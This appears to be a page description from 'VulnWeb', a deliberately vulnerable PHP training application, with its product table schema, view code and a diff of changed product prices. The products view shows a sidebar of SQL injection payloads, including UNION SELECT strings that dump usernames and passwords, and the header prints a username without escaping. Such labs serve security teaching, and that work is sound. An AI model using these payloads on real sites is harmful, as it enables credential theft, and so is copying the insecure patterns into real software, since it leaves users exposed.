
The page /products.php on the database as committed earlier.

The same page on the database as committed later.
### tables this page shows
CREATE TABLE products (
    id INT AUTO_INCREMENT PRIMARY KEY,
    name VARCHAR(100) NOT NULL,
    description TEXT,
    price DECIMAL(10,2),
    category VARCHAR(50),
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);

### src/config.php (called while the page is built, shortened)
<?php
function isLoggedIn() {
    return isset($_SESSION['user_id']);
}
?>

### src/products.php (the view, shortened to what this page needs)
<?php
require_once 'config.php';
$search = $_GET['search'] ?? '';
include 'header.php';
?>
<div class="row">
    <div class="col-md-3">
        <div class="card">
            <div class="card-header">
                <h5>🔍 Search Products</h5>
            </div>
            <div class="card-body">
                <form method="GET" action="products.php">
                    <div class="mb-3">
                        <label for="search" class="form-label">Search</label>
                        <input type="text" class="form-control" id="search" name="search"
                               value="<?php echo htmlspecialchars($search); ?>"
                               placeholder="Enter product name...">
                    </div>
                    <div class="mb-3">
                        <label for="category" class="form-label">Category</label>
                        <select class="form-control" id="category" name="category">
                            <option value="">All Categories</option>
                        </select>
                    </div>
                    <button type="submit" class="btn btn-primary btn-sm">Search</button>
                    <a href="products.php" class="btn btn-outline-secondary btn-sm">Clear</a>
                </form>
                <hr>
                <div class="alert alert-danger p-2">
                    <h6 class="mb-1">🎯 SQL Injection Testing</h6>
                    <p class="mb-1 small">Table <strong>products</strong> has 6 cols:<br>
                        <code style="font-size:.7rem;">id, name, description, price, category, created_at</code>
                    </p>
                    <div class="mb-1">
                        <span class="badge bg-dark mb-1">1. Return all rows</span>
                        <div class="bg-light rounded p-1" style="word-break:break-all;font-size:.72rem;">
                            <code>' OR '1'='1'-- -</code>
                        </div>
                        <small class="text-muted">Looks same as default — all products shown</small>
                    </div>
                    <div class="mb-1">
                        <span class="badge bg-dark mb-1">2. Dump credentials</span>
                        <div class="bg-light rounded p-1" style="word-break:break-all;font-size:.72rem;">
                            <code>' UNION SELECT 1,username,password,4,5,6 FROM users-- -</code>
                        </div>
                        <small class="text-muted">Shows username/password as product rows</small>
                    </div>
                    <div class="mb-1">
                        <span class="badge bg-dark mb-1">3. Dump only (no products)</span>
                        <div class="bg-light rounded p-1" style="word-break:break-all;font-size:.72rem;">
                            <code>' AND 1=2 UNION SELECT NULL,concat(username,':',password),NULL,NULL,NULL,NULL FROM users-- -</code>
                        </div>
                        <small class="text-muted">Hides real products, shows user:pass only</small>
                    </div>
                    <p class="mb-0 small">💡 Append <code>?debug=1</code> to URL to see raw SQL.</p>
                </div>
            </div>
        </div>
    </div>
    <div class="col-md-9">
        <div class="d-flex justify-content-between align-items-center mb-3">
            <h3>📦 Products</h3>
        </div>
        <?php
        $conn = getConnection();
        $query = "SELECT * FROM products WHERE 1=1";
        $query .= " ORDER BY created_at DESC";
        $result = $conn->query($query);
        if (!$result) {
            echo "<div class='alert alert-danger'>Database Error: " . $conn->error . "</div>";
        } else {
            if ($result->num_rows === 0) {
                echo "<div class='alert alert-warning'>No products found matching your criteria.</div>";
            } else {
                echo "<div class='row'>";
                while ($product = $result->fetch_assoc()) {
                    ?>
                    <div class="col-md-6 mb-4">
                        <div class="card">
                            <div class="card-header">
                                <h5 class="card-title mb-0"><?php echo htmlspecialchars($product['name']); ?></h5>
                                <small class="text-muted"><?php echo htmlspecialchars($product['category']); ?></small>
                            </div>
                            <div class="card-body">
                                <p class="card-text"><?php echo htmlspecialchars($product['description']); ?></p>
                                <p class="text-primary">
                                    <strong>Price: $<?php echo number_format($product['price'], 2, '.', ','); ?></strong>
                                </p>
                                <div class="btn-group" role="group">
                                    <a href="product_detail.php?id=<?php echo $product['id']; ?>" class="btn btn-primary btn-sm">View Details</a>
                                </div>
                            </div>
                            <div class="card-footer text-muted">
                                Created: <?php echo date('M j, Y', strtotime($product['created_at'])); ?>
                            </div>
                        </div>
                    </div>
                    <?php
                }
                echo "</div>";
            }
        }
        ?>
    </div>
</div>
<?php include 'footer.php'; ?>

### src/header.php (shortened to what this page needs)
<!DOCTYPE html>
<html lang="en">
<head>
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css" rel="stylesheet">
</head>
<body>
    <nav class="navbar navbar-expand-lg navbar-dark bg-dark">
        <div class="container">
            <a class="navbar-brand" href="index.php">
                🎯 VulnWeb
                <span class="vulnerability-badge">VULNERABLE</span>
            </a>
            <div class="collapse navbar-collapse" id="navbarNav">
                <ul class="navbar-nav me-auto">
                    <li class="nav-item">
                        <a class="nav-link" href="index.php">Home</a>
                    </li>
                    <li class="nav-item">
                        <a class="nav-link" href="products.php">
                            Products
                            <span class="vulnerability-badge">SQLi</span>
                        </a>
                    </li>
                    <li class="nav-item">
                        <a class="nav-link" href="comments.php">
                            Comments
                            <span class="vulnerability-badge">XSS</span>
                        </a>
                    </li>
                </ul>
                <ul class="navbar-nav">
                    <?php if (isLoggedIn()): ?>
                        <?php $user = getCurrentUser(); ?>
                        <li class="nav-item dropdown">
                            <a class="nav-link dropdown-toggle" href="#" id="navbarDropdown" role="button" data-bs-toggle="dropdown">
                                Welcome, <?php echo $user['username']; ?>
                            </a>
                            <ul class="dropdown-menu">
                                <li><a class="dropdown-item" href="profile.php">Profile</a></li>
                                <li><a class="dropdown-item" href="settings.php">Settings</a></li>
                                <li><hr class="dropdown-divider"></li>
                                <li><a class="dropdown-item" href="logout.php">Logout</a></li>
                            </ul>
                        </li>
                    <?php else: ?>
                        <li class="nav-item">
                            <a class="nav-link" href="login.php">
                                Login
                                <span class="vulnerability-badge">AUTH</span>
                            </a>
                        </li>
                        <li class="nav-item">
                            <a class="nav-link" href="register.php">Register</a>
                        </li>
                    <?php endif; ?>
                </ul>
            </div>
        </div>
    </nav>
    <main class="container mt-4">

### src/footer.php (shortened to what this page needs)
    </main>
    <footer class="footer">
        <div class="container">
            <div class="row">
                <div class="col-md-6">
                    <h5>🎯 VulnWeb - Vulnerable Web Application</h5>
                    <p class="text-muted">
                        This application is intentionally vulnerable for educational purposes.<br>
                        <strong>⚠️ DO NOT use in production environments!</strong>
                    </p>
                </div>
                <div class="col-md-6">
                    <h6>Vulnerability Categories</h6>
                    <ul class="list-unstyled">
                        <li><span class="vulnerability-badge">SQLi</span> SQL Injection</li>
                        <li><span class="vulnerability-badge">XSS</span> Cross-Site Scripting</li>
                        <li><span class="vulnerability-badge">AUTH</span> Broken Authentication</li>
                        <li><span class="vulnerability-badge">BAC</span> Broken Access Control</li>
                        <li><span class="vulnerability-badge">PRIV</span> Privilege Escalation</li>
                    </ul>
                </div>
            </div>
            <hr>
            <div class="row">
                <div class="col-12 text-center">
                    <p class="text-muted mb-0">
                        Created for Cyber Kill Chain Training |
                        <a href="?debug=1" class="text-decoration-none">Debug Mode</a> |
                        <a href="vulnerabilities.php" class="text-decoration-none">Vulnerability Guide</a>
                    </p>
                </div>
            </div>
        </div>
    </footer>
</body>
</html>

### src/header.php (style rules this page uses)
.vulnerability-badge { background-color: #dc3545; color: white; padding: 2px 6px; border-radius: 3px; font-size: 0.8em; margin-left: 5px; }
.nav-item .vulnerability-badge { background-color: #ffc107; color: #212529; }
.footer { margin-top: 50px; padding: 20px 0; background-color: #f8f9fa; border-top: 1px solid #dee2e6; }

Rows that differ between the two databases and show on the page:
changed products "High-performance gaming laptop": name "Laptop Gaming" → "Gaming Laptop"; price "15,000,000.00" → "1,299.00"
changed products "Latest Android smartphone": name "Smartphone Android" → "Android Smartphone"; price "8,000,000.00" → "699.00"
changed products "Coffee Maker": price "2,500,000.00" → "199.00"
changed products "Wireless Headphones": price "3,500,000.00" → "299.00"
changed products "Smart Watch": price "4,500,000.00" → "399.00"
